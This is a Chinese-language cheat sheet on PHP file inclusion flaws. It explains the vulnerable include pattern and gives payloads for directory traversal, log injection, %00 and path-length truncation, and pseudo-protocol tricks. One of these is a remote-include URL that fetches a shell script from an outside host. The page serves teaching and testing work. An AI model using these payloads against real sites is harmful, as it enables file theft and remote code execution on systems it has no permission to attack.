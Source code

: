文件包含
================================

基础
--------------------------------

常见的文件包含漏洞的形式为 ``<?php include("inc/" . $_GET['file']); ?>``

考虑常用的三种包含方式为

- 同目录包含 ``file=.htaccess``
- 目录遍历 ``?file=../../../../../../../../../var/lib/locate.db``
- 日志注入 ``?file=../../../../../../../../../var/log/apache/error.log``

其中日志可以使用SSH日志或者Web日志等多种日志来源测试

绕过技巧
--------------------------------
常见的应用在文件包含之前，可能会调用函数对其进行判断，一般有如下几种绕过方式

url绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过

特殊字符绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
某些情况下，读文件支持使用Shell通配符，如 ``?`` ``*`` 等

%00截断
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
几乎是最常用的方法，条件是magic_quotes_gpc打开，而且php版本小于5.3.4。

长度截断
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Windows上的文件名长度和文件路径有关。具体关系为：从根目录计算，文件路径长度最长为259个bytes。

msdn定义```#define MAX_PATH 260```，第260个字符为字符串结尾的```\0```

linux可以用getconf来判断文件名长度限制和文件路径长度限制

获取最长文件路径长度：getconf PATH_MAX /root 得到4096
获取最长文件名：getconf NAME_MAX /root 得到255

那么在长度有限的时候，```././././``` (n个) 的形式就可以通过这个把路径爆掉

伪协议绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- 远程包含: 要求 ``allow_url_fopen=On`` and ``allow_url_include=On`` ， payload为 ``?file=[http|https|ftp]://websec.wordpress.com/shell.txt``

- PHP INPUT: 把payload放在POST参数中作为包含的文件，要求 ``allow_url_include=On`` ，payload为 ``?file=php://input``

- BASE64: 使用Base64伪协议读取文件，payload为 ``?file=php://filter/convert.base64-encode/resource=index.php``

- DATA: 使用data伪协议读取文件，payload为 ``?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`` 要求 ``allow_url_include=On``


